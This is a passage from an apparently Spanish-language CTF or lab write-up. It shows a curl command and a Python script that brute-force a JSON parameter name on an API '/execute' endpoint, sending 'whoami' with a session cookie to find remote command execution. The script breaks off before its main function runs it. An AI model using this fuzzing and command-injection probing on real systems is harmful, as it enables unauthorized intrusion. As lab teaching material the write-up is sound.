 La estructura del comando seria algo asi:

```shell
curl -X POST http://secure-api-register.dl/execute \
    -H "Content-Type: application/json" \
    -d '{"<FUZZ>": "whoami"}' \                     
    -b cookie.txt
```

> findParamAPICommand.py

```python
import subprocess
import argparse

# Función para realizar la solicitud de prueba
def brute_force(url, cookie_file, wordlist):
    # Abrimos el archivo de cookies
    with open(cookie_file, 'r') as f:
        cookies = f.read().strip()

    # Leer el archivo wordlist con manejo de errores en la codificación
    with open(wordlist, 'r', encoding='utf-8', errors='ignore') as f:
        words = f.readlines()

    # Limpiar las palabras del diccionario
    words = [word.strip() for word in words]

    # Contador de intentos
    attempt_counter = 0

    # Intentar con cada palabra del diccionario
    for word in words:
        attempt_counter += 1  # Incrementar el contador de intentos

        # Construir el comando curl dinámicamente
        curl_command = [
            "curl", "-X", "POST", url,
            "-H", "Content-Type: application/json",
            "-d", f'{{"{word}": "whoami"}}',  # Reemplaza <FUZZ> por la palabra actual
            "-b", cookie_file
        ]

        # Ejecutar el comando curl
        response = subprocess.run(curl_command, capture_output=True, text=True)

        # Verificar si la respuesta contiene el resultado esperado
        if "result" in response.stdout:
            print(f"\nSuccess! Parameter: {word}, Response: {response.stdout}")
            break  # Si encuentra el parámetro correcto, se detiene el proceso

        # Muestra el contador de intentos en la misma línea
        if attempt_counter % 10 == 0:
            print(f"\rAttempted {attempt_counter} commands...", end='', flush=True)

# Función principal para manejar los parámetros de línea de comandos
def main():
    parser = argparse.ArgumentParser(description="Fuerza bruta para encontrar el parámetro correcto en el JSON.")
    parser.add_argument("-u", "--url", required=True, help="URL de la API para probar")
    parser.add_argument("-c", "--cookie", required=True, help="Ruta al archivo de cookies")
    parser.add_argument("-w", "--wordlist", required=True, help="Ruta al archivo de diccionario de palabras")
    args = parser.parse_args()

```